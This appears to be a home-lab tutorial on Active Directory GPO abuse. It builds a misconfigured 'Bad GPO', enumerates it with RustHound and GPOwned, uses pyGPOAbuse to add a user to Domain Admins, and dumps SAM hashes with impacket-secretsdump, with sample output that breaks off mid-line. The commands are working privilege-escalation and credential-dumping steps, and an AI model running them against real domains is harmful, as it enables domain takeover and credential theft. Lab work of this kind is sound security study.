 # 🔐 GPO Abuse

## What is a GPO?

A **Group Policy Object** is a set of rules in Windows AD used by Domain Admins to:

- Manage settings on computers and users (e.g., password policies, startup scripts, firewall rules).
- Push software or configurations to all machines in a domain.

These policies are linked to **OUs (Organizational Units)** in AD and apply automatically.

### Example of GPO

Suppose the admin wants to remove the Recycle Bin icon from the desktop. By enabling the corresponding Group Policy, the desktop icon will be removed automatically.

## What is GPO Abuse? 

**GPO abuse** refers to **abusing Group Policy Objects (GPOs)** in a Windows Active Directory (AD) environment to gain elevated privileges, maintain persistence, or move laterally across systems.

---


##  Setting Up Misconfigurations Exploit GPO 

### 1. Create a New Organizational Unit (OU)

Open **Active Directory Users and Computers**:

- Right-click on your domain
- Select **New** → **Organizational Unit**

<img src="Imgs/image1.png" alt="Creating OU - Step 1"/>
<img src="Imgs/image2.png" alt="Creating OU - Step 2"/>

---

### 2. Create a New GPO Named "Bad GPO"

Open **Group Policy Management** and:

- Right-click on the domain or the OU
- Select **Create a GPO in this domain, and Link it here...**
- Name it **Bad GPO**

<img src="Imgs/image3.png" alt="Creating GPO - Step 1"/>
<img src="Imgs/image4.png" alt="Creating GPO - Step 2"/>

---

### 3. Delegate Permissions to a User

Go to the **Delegation** tab in your newly created GPO:

- Click **Add**
- Choose the user you want to delegate (e.g., `jack`)

<img src="Imgs/image5.png" alt="Delegating User - Step 1"/>
<img src="Imgs/image6.png" alt="Delegating User - Step 2"/>

Then:

- Click **OK**
- Set the user's permission to **Edit settings**

<img src="Imgs/image7.png" alt="Setting Permissions"/>

---

### 4. Link GPO to Target OU

Finally, move or link the **Bad GPO** to the **AI_Dep** OU.

<img src="Imgs/image8.png" alt="Linking GPO to OU"/>


##  Enumeration

To begin enumeration, we use **RustHound**:

```bash
rusthound -d furious.local -u jack@furious.local -p 'complex1@' -f $IP -i $IP -z -o rusthound
````


After analyzing the output in **BloodHound**, we discover that the user `jack` has **GenericWrite** permissions on the **Bad GPO**.

<img src="Imgs/image9.png" alt="GenericWrite Permission on GPO"/>

This permission allows us to **modify the GPO**, which we can use to **add ourselves to the Domain Admins group**.

---

###  GPO Abuse Utilities

To exploit GPO misconfigurations, we can use any of the following tools:

* [pyGPOAbuse (Python)](https://github.com/Hackndo/pyGPOAbuse)
* [GPOwned (Python)](https://github.com/X-C3LL/GPOwned)




##  GPOwned vs pyGPOAbuse

> **Note:** We use **GPOwned** due to its wide range of features. However, for executing a simple command such as adding ourselves to the **Domain Admins group**, **pyGPOAbuse** is more straightforward.

---

###  Listing GPOs Related to the User

To list GPOs related to the user:

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgpo
```
```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/GPOwned]
└─$ python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgpo
                GPO Helper - @TheXC3LL
                Modifications by - @Fabrizzio53


[*] Connecting to LDAP service at 192.168.129.140
[*] Requesting GPOs info from LDAP

[+] Name: {31B2F340-016D-11D2-945F-00C04FB984F9}
        [-] displayName: Default Domain Policy
        [-] gPCFileSysPath: \\furious.local\sysvol\furious.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 3
        [-] Verbose: 

[+] Name: {6AC1786C-016F-11D2-945F-00C04fB984F9}
        [-] displayName: Default Domain Controllers Policy
        [-] gPCFileSysPath: \\furious.local\sysvol\furious.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 5
        [-] Verbose: 

[+] Name: {7FB465D4-071E-4C58-9EBB-133086F5BF87}
        [-] displayName: Bad Gpo
        [-] gPCFileSysPath: \\furious.local\SysVol\furious.local\Policies\{7FB465D4-071E-4C58-9EBB-133086F5BF87}
        [-] gPCUserExtensionNames: None
        [-] versionNumber: 0
        [-] Verbose: 

[^] Have a nice day!
```

###  Listing GPOs Related to the Machine

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcmachine -listgpo
```

###  View GPOs Linked to a Specific OU

To view GPOs linked to a specific OU (`AI_Dep` in this case):

```
python3 GPOwned.py -u jack -p complex1@ -d furious.local -dc-ip 192.168.129.140 -gpcuser -listgplink  -ou AI_Dep
```


##  Abusing GPO with pyGPOAbuse

To abuse the vulnerable GPO and add `jack` to the **Domain Admins** group:


```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/pyGPOAbuse]
└─$ python3 pygpoabuse.py 'furious.local'/'jack':'complex1@' -gpo-id "7FB465D4-071E-4C58-9EBB-133086F5BF87" -command '/c net group "Domain Admins" jack /add /domain'
SUCCESS:root:ScheduledTask TASK_e12bc4ec created!
[+] ScheduledTask TASK_e12bc4ec created!

```
###  Optional: Dumping Hashes with SecretsDump

Once we have Domain Admin privileges, we can dump all user hashes:

```
impacket-secretsdump furious.local/jack:'complex1@'@192.168.129.140
```

```
┌──(kali㉿kali)-[~/Home-lab/gpo-abuse/pyGPOAbuse]
└─$ impacket-secretsdump furious.local/jack:'complex1@'@192.168.129.140
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x40dc74d52a81d056f488d800be5a2f7c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f1c3f58541c936fd550482ec578f102e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The acc
```















